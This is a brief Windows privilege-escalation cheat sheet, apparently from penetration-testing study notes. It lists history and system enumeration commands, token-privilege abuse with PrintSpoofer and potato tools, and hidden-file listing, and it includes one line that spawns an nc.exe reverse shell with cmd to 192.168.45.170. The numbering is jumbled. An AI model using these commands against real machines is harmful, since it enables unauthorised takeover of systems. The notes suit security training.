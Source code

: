       



## Privilege Escalation

### Win PE

#### 5. History

```
Get-History
(Get-PSReadlineOption).HistorySavePath
```



#### 1. Basic Enumeration

```
systeminfo
hostname

set
```



```
whoami
	whoami /groups
	whoami /priv
	whoami /all

### Use PrintSpoofer& Juicypotato & SweetPotato
SeImpersonatePrivilege
	./PrintSpoofer.exe -c "c:\tools\nc.exe 192.168.45.170 1002 -e cmd	# Windows 10 and Server 2016/2019

SeBackupPrivilege
SeRestorePrivilege

SeAssignPrimaryToken
SeLoadDriver
SeDebug
```

- If we're part of an interesting group such as DndAdmins, Check HackTricks & Google the group, and follow instructions



#### 2. Common Directories & Sensitive Files

`C:\` & `C:\Users`

View hidden files

```
CMD: dir /a
PowerShell: Get-ChildItem -Force
```
